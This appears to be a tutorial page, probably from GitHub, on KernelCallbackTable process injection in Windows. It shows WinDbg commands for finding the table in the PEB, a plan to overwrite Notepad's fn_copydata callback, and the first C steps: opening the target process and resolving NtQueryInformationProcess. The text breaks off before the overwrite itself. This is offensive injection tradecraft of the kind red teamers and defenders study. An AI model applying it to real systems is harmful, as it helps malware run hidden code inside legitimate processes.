 > ## Finding KernelCallbackTable

In WinDbg, we can use the _**dt_peb**_ command to display the Process Environment Block (PEB) structure. Within this structure, the _**KernelCallbackTable**_ can be found at the offset +0x058.

![https://i.postimg.cc/hjRshK4s/image.png](https://i.postimg.cc/hjRshK4s/image.png)

- In WinDbg, to find the pointer to the _**KernelCallbackTable**_, you can use the following command:
```
? poi(@$peb+0x58)
```
This command evaluates the expression at the offset +0x058 of the Process Environment Block (PEB), providing the address of the _**KernelCallbackTable**_.

We can use the _**dps**_ command to display specific content within an address.

![https://i.postimg.cc/5NMtp0n1/image.png](https://i.postimg.cc/5NMtp0n1/image.png)

We are particularly interested in the _**fn_copydata**_ function, which calls _**wm_copydata**_, a predefined structure. We can write code that sends information to Notepad using _**copydata**_. Notepad has a predefined table with function pointers that can be directed to our desired functions. When the callback is triggered, it will execute as intended.

Our plan is to overwrite the _**copydata**_ callback with our desired function to achieve the intended operation.

> ## Code

> ### Step 1: Open a handle to the remote process.

- We will modify the PEB table of another process, which requires accessing the memory of the remote process. We need the process ID of the target process for injection. We can obtain this using a WinAPI function:
```c
DWORD PID = atoi(argv[1]);
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
```

- The returned handle is an internal structure containing the necessary information to interact with the remote process. It is important to perform a sanity check, which can be done using a _**printf**_ statement:
```c
printf("Process PID %d HANDLE 0x%p\n", PID, hProc);
```
This handle contains internal information that Windows uses to permit operations on the remote process. The _**OpenProcess**_ call is now successful.

> ### Step 2: Retrieve the PEB Structure Information

- To retrieve the PEB structure information, we use the _**NtQueryInformationProcess**_ WinAPI function, which is not documented by Windows due to its internal use.
```c
NTSTATUS(*NtQueryInformationProcess)(HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);
```

- First, we resolve this function using _**GetProcAddress**_:
```c
NtQueryInformationProcess = GetProcAddress(LoadLibrary("ntdll.dll"), "NtQueryInformationProcess");
printf("NtQueryInformationProcess at 0x%p\n", NtQueryInformationProcess);
```
At this point, we have a pointer to _**NtQueryInformationProcess**_.

